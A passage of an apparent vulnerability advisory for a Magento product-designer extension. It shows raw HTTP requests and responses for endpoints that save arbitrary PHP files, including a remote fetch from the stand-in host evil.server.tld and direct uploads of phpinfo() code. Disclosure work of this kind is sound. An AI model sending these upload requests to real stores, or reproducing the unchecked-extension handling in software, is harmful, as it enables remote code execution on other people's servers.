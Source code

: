 ### Response body (JSON)
```
{"status":"success","message":"Image had copied successfully!","filename":"https:\/\/testing.local.tld\/media\/pdp\/images\/upload\/social-image-1479935623.php","original_filename":"http:\/\/evil.server.tld\/misc\/what.php","price":0,"price_format":"Free"}
```

The file is downloaded from the given URL and placed in Magento's `media/pdp/images/upload/` directory without any content checking.  
The file's generated filename is returned in the response body.  
The file's extension (last split-on-dot token) is trusted as the output extension.

---

## Endpoint 6

### Request:
```
POST https://testing.local.tld/pdp/export/saveExportImage/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="base_code_image"

data:text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
---------------------------acebdf13572468
Content-Disposition: form-data; name="format"

php
---------------------------acebdf13572468--
```

### Response body (JSON)
```
{"status":"success","message":"Image have been successfully saved!","filename":"Design_58360a038adf4.php","thumbnail_path":"https:\/\/testing.local.tld\/media\/pdp\/images\/thumbnail\/Design_58360a038adf4.php"}
```
The uploaded file is placed in Magento's `media/pdp/download/` directory.  
The file's generated filename is returned in the response body, but its path incorrectly points to `media/pdp/images/thumbnail/` rather than `media/download/`.  
The file's extension (last split-on-dot token) is trusted as the output extension.

---

## Endpoint 7

### Request:
```
POST https://testing.local.tld/pdp/index/uploadCustomImage/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="uploads[0]"; filename="some.php"
Content-Type: text/plain

<?php

phpinfo();

---------------------------acebdf13572468--
```
